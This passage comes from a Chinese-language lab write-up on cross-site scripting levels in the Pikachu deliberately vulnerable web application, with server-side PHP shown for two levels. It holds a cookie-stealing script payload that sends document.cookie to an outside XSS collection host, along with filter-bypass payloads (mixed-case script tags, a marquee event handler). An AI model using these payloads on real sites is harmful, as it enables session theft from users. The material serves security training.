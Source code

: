 - 后台: http://<IP地址!!!>/pikachu/vul/xss/xssblind/admin_login.php
- 账号密码: admin 123456

到 pikachu 平台下管理工具,进去初始化平台

盗 cookie payload `<script>document.location = 'http://<xss平台地址>/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>`

![image](../../../../assets/img/安全/实验/Misc/pikachu/12.png)

### xss 之过滤

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['message'] != null){
    //这里会使用正则对<script进行替换为空,也就是过滤掉
    $message=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/', '', $_GET['message']);
    if($message == 'yes'){
        $html.="<p>那就去人民广场一个人坐一会儿吧!</p>";
    }else{
        $html.="<p>别说这些'{$message}'的话,不要怕,就是干!</p>";
    }

}
```

这里注释写的很清楚了,不多说了

**漏洞利用**

过滤了 `<script` ,还有很多的标签可以用,再说还有很多绕过方法

- payload: `<marquee loop="99" onfinish=alert(1)>hack the planet</marquee>`

- payload: `<ScrIpT>alert('老铁,欧里给!')</sCriPt>`

### xss 之 htmlspecialchars

**服务器端核心代码**
```php
if(isset($_GET['submit'])){
    if(empty($_GET['message'])){
        $html.="<p class='notice'>输入点啥吧!</p>";
    }else {
        //使用了htmlspecialchars进行处理,是不是就没问题了呢,htmlspecialchars默认不对'处理
        $message=htmlspecialchars($_GET['message']);
        $html1.="<p class='notice'>你的输入已经被记录:</p>";
        //输入的内容被处理后输出到了input标签的value属性里面,试试:' onclick='alert(111)'
//        $html2.="<input class='input' type='text' name='inputvalue' readonly='readonly' value='{$message}' style='margin-left:120px;display:block;background-color:#c0c0c0;border-style:none;'/>";
        $html2.="<a href='{$message}'>{$message}</a>";
    }
}
```
